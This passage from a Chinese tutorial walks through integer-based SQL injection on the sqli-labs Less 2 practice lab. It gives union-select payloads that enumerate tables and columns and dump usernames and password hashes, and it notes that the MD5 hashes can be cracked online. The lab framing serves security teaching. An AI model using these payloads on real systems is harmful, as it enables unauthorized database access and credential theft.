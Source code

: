  可以看到成功爆出用户名、密码，密码采用 md5 进行加密，可以到`www.cmd5.com`进行解密 ，可以尝试是否能够登录成功



### sql注入实例二：整型注入

以sqli-labs less 2举例。

1.首先根据提示，输入`id=1`,查看回显

![1633524664616](https://i.loli.net/2021/10/07/nZusk6UV48HSoqT.png)

2.加上单引号，输入`id=1'` 页面返回错误，存在sql注入

![1633524744128](https://i.loli.net/2021/10/07/Z4r97lw8osOfjAh.png)

3.使用order by判断表字段的最大值 当输入`id=1 order by 4%23`，由此可知，该表有3个字段，为3列

![1633530288294](https://i.loli.net/2021/10/07/XWrKfq19pkDe7lg.png)

4.获取当前数据库，输入`id=12222 union select 1,2,database()%23`，由于页面显示限制，只显示第一行数据，输入id=12222使得前一条查询语句不显示（可以使用不存在的数或者加and 0）

![1633530314199](https://i.loli.net/2021/10/07/8nX1EecxIkTbofs.png)

5.获取当前数据库的所有表,输入以下： 

```text
id=1222 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23
```

![1633530334370](https://i.loli.net/2021/10/07/kI2PAzYLDm8WG5c.png)

备注：group_concat()拼接所有列

6.获取我们想要users表的字段，输入以下,得到users表的字段为id,username,password：

```
id=1222 union select 1,2,group_concat(column_name) from information_schema.columns where table_name = 'users'%23
```

![1633530354562](https://i.loli.net/2021/10/07/QSl2DXfo7uPzNaM.png)

7.获取username,password，输入以下：

```
id=12222 union select 1,group_concat(username),group_concat(password) from users%23
```

![1633530376447](https://i.loli.net/2021/10/07/qkSNl8b3ZVBaDzh.png)

可以使用concat_ws()将uername,password拼接展示：

```
id=121343 union select 1,group_concat(concat_ws(':',username,password)),3 from security.users%23
```
